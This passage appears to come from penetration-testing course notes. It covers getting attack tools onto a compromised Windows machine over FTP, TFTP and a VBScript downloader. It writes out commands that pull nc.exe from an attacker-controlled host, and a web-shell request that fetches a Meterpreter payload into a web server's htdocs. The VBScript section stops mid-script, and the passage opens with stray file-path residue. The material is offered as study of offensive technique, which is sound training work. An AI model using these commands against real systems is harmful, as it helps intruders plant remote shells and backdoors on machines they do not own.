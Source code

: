 Enter it again:

Restarting ftp server

With our FTP server configured, we can now paste the following commands into a remote Windows shell and download files over FTP 

non-interactively.

From target machine run commands below

C:\Users\offsec>echo open 10.11.0.5 21> ftp.txt

C:\Users\offsec>echo USER offsec>> ftp.txt

C:\Users\offsec>echo ftp>> ftp.txt

C:\Users\offsec>echo bin >> ftp.txt

C:\Users\offsec>echo GET nc.exe >> ftp.txt

C:\Users\offsec>echo bye >> ftp.txt

C:\Users\offsec>ftp -v -n -s:ftp.txt

#### UPLOADING FILES WITH TFTP

We first need to set up the TFTP server in Kali.

mkdir /tftp

1.	atftpd --daemon --port 69 /tftp

2.	cp /usr/share/windows-binaries/nc.exe /tftp/

3.	tftp -i 10.11.0.5 get nc.exe

another method we first need to set up the TFTP server in Kali.

1.	atftpd -daemon -bind-address 192.168.20.09 /tmp

2.	set the command parameter in shell.php script as follows

http://192.168.20.10/shell.php?cmd=tftp 192.168.20.9 get meterpreter.php c:\\xampp\\htdocs\\meterpreter.php

#### UPLOADING FILE USING VBSCRIPT

write out a VBS script that acts as a simple HTTP downloader

echo strUrl = WScript.Arguments.Item(0) > wget.vbs

echo StrFile = WScript.Arguments.Item(1) >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs

echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
